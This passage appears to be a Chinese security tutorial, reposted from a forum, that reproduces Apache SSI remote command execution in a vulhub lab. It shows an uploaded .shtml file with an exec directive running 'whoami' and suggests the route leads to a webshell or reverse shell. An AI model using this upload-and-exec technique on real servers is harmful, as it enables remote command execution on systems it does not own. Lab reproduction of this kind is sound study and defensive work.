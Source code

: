 开启ssi需要单独配置 Apache，可以参考ssi配置

```php
https://httpd.apache.org/docs/2.4/howto/ssi.html
```

总结呢，就是：ssi.html也可以执行命令

创建a001.shtml 写入如下命令 进行上传

### 包含ssi指令的文件

```php
&lt;pre&gt;&lt;!--#exec cmd=&quot;whoami&quot; --&gt;&lt;/pre&gt;
```

### 漏洞复现

同样是用vulhub进行启动

```php
sudo docker-compose up -d
```

访问一下

![1619164572259](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ed898d0fb03f7845d14f5c90e8599cd7150fbf1d.png)

写入ssi指令的文件

```php
&lt;pre&gt;&lt;!--#exec cmd=&quot;whoami&quot; --&gt;&lt;/pre&gt;
```

文件名保存为`a001.shtml`，这个后缀取决于 Apache的配置，默认是此后缀

![1619164582678](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4c61207e1d2cd151f657545a6508f51fd878650f.png)

访问一下

![1619164655934](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5ce2b840871d0904eed81cc4c5b4d86012a96f97.png)

这里的思路 比如上传webshell 或者拿反弹shell都是可以的

文章转载于：<https://www.freebuf.com/articles/web/271745.html>